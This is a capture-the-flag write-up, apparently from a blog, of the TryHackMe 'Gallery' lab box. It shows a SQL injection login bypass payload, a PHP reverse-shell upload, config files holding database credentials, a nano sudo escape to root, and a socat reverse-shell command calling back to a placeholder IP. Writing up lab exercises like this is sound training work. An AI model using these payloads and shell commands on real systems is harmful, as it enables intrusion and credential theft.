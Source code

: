 +++
title = 'Gallery'
date = 2022-02-11T14:14:22+02:00
draft = false
tags = ['thm', 'writeup']
summary = '[Gallery](https://tryhackme.com/room/gallery666) is an easy CTF-like box that features vulnerabilities like SQLi, RCE & misconfiguration. This is a very beginner-friendly room that was created by [Mikaa](https://tryhackme.com/p/Mikaa).'
description = '"Gallery" is an easy CTF machine. Released on 11th of February, 2022 (THM).'
thumbnail = 'img/gl-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap Scan

The first thing to do is to perform an Nmap scan. For the scan, I used the default scripts, version detection and OS detection. I also scanned all of the ports but the only ones that were open were a part of the common ports:

```text
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Unknown favicon MD5: 7424D18C988732ECDA7DF08FBC727000
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
            
        

In the output we see two HTTP services open on ports `80` and `8080`. On port `80` we find a default apache page however on port `8080` we find a login system:

![](img/gl-webpage.png)

Exploitation
------------

### SQL Injection

The first thing that I tried was a simple SQL injection payload in the username field. This will log us in as the administrator. The payload that I used was:

```SQL
' OR 1=1 -- -
```

![](img/gl-admin.png)

### Reverse Shell

For the challenge, we also have to find the administrator's password hash. SQLmap couldn't find the field to be vulnerable even tho it is. So I decided to keep on going and access the database later. Now after we have logged in via SQLi authentication bypass we can start to look at the features this CMS gives us. Under the albums section, we see multiple albums. We can try to upload a PHP reverse shell:

![](img/gl-upload-1.png)

There were no filters on the upload. Now we can set up our Netcat listener and open the uploaded PHP file which gives us a reverse shell as www-data:

![](img/gl-upload-2.png)

### Data Exfiltration

Now that we have access to the system the first thing that I do is find the MySQL database configuration at:

`/var/www/html/gallery/classes/DBConnection.php`

The credentials are passed in as variables which are initialized on

`/var/www/html/gallery/initialize.php`

```php
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
```

![](img/gl-database.png)

Privilege Escalation
====================

System User Access
------------------

### Exploitation

In our enumeration we find a system user `mike`. At this point, I have done a lot of enumeration on common privilege escalation techniques but I didn't find anything. Lastly, I was looking for files and I found a directory called `mike_home_backup` at `/var/backups/` with this command:

```bash
find / 2>/dev/null | grep mike
```

This is a backup of Mike's home directory. Here we can explore the documents directory where we find a file called `accounts.txt` where mike has backed up his passwords:

![](img/gl-user-1.png)

I tried to use these passwords to see if we can log in as mike but that didn't work. After that, I checked out the `.bash_history` file and found mikes password:

![](img/gl-user-2.png)

Root User Access
----------------

### Exploitation

Before we continue let's grab the user flag located in `/home/mike/user.txt`. When that is done let's check out common privilege escalation vectors. The first thing that I ran was "sudo -l" to see if we can run a command as the superuser:

![](img/gl-user-3.png)

We can run a bash script as root. This script allows you to choose between options of what you want to do. The one that sticks out is "read" since it runs "nano" editor as root:

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

We can look for a payload that could give us a root shell. Here is the one that I grabbed from GtfoBins note that for it to work you must have a sable enough shell:

```bash
sudo /bin/bash /opt/rootkit.sh
# Choose the "Read" option.
# Follow the shortcuts:
CTRL + R
CTRL + X
# Execute this command:
reset; sh 1>&0 2>&0
```
            
        

![](img/gl-root-1.png)

If this does not work then that means that you might not have a sable shell. On this box socat is installed so we can use it with the following commands to generate a new more stable shell:

```bash
# Shell listener
socat file:`tty`,raw,echo=0 tcp-listen:4444
# Shell payload
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444
```

If the shell is stable and we are able to execute the command then we can claim our root flag at `/root/root.txt` and finish the box:

![](img/gl-root-2.png)
